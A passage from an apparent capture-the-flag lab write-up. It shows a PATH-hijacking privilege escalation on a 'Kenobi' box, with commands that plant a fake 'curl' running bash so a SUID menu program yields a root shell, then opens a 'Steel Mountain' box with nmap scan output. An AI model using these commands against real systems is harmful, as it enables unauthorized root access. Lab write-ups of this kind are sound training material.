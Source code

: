 Let's try to copy /bin/bash to the local folder and add it to our PATH environment variable so we can overwrite the regular curl command as it is not referenced by an absolute path:
```
echo /bin/bash > curl
chmod 777 curl
export PATH=/home/kenobi:$PATH
```

After that we run `/usr/bin/menu` again and choose option `1`:
```
***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :1
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@kenobi:~# 
```

The command the script runs is: `curl -I localhost`. So if we would just `cp /bin/bash ./curl` it would still pass the argument and fail.

Finally, we can get the root flag: `cat /root/root.txt`.

### Day 2 - Practice

#### Steel Mountain

We start with nmap as usual:
```
Host is up (0.038s latency).
Not shown: 988 closed ports
PORT      STATE SERVICE            VERSION
80/tcp    open  http               Microsoft IIS httpd 8.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/8.5
|_http-title: Site doesn't have a title (text/html).
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server?
|_ssl-date: 2020-04-25T14:03:27+00:00; -1s from scanner time.
8080/tcp  open  http               HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49159/tcp open  msrpc              Microsoft Windows RPC
49161/tcp open  msrpc              Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_nbstat: NetBIOS name: STEELMOUNTAIN, NetBIOS user: <unknown>, NetBIOS MAC: 02:81:1a:c8:73:28 (unknown)
|_smb-os-discovery: ERROR: Script execution failed (use -d to debug)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
```